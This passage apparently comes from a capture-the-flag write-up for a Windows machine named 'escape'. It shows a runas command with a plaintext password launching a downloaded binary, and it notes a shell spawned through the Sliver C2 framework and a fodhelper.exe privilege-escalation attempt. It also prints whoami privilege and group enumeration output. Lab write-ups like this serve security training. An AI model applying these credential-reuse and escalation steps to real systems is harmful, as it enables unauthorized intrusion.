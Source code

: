 ```c
runas -u admin -P Twisting3021 "C:\Users\kioskuser0\Downloads\lync.exe"
```

Alternatively `Sno0w` had to spawn a shell with `RunasCs` executed as assembly through sliver.
Later he had to switch back for the privilege escalation because in his session he got `access denied` on `fodhelper.exe`.

## Pivoting

```c
C:\Windows\system32>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State
============================= ==================================== ========
SeShutdownPrivilege           Shut down the system                 Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled
SeUndockPrivilege             Remove computer from docking station Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
SeTimeZonePrivilege           Change the time zone                 Disabled
```

```c
C:\Users\admin>whoami /all

USER INFORMATION
----------------

User Name    SID
============ ==============================================
escape\admin S-1-5-21-3698417267-3345840482-3422164602-1001


GROUP INFORMATION
-----------------

Group Name                                                Type             SID          Attributes
========================================================= ================ ============ ==================================================
Everyone                                                  Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\로컬 계정 및 관리자 그룹 구성원 Well-known group S-1-5-114    Group used for deny only
BUILTIN\Administrators                                    Alias            S-1-5-32-544 Group used for deny only
BUILTIN\Users                                             Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\INTERACTIVE                                  Well-known group S-1-5-4      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users                          Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization                            Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\로컬 계정                                Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
LOCAL                                                     Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication                          Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level                    Label            S-1-16-8192


PRIVILEGES INFORMATION
```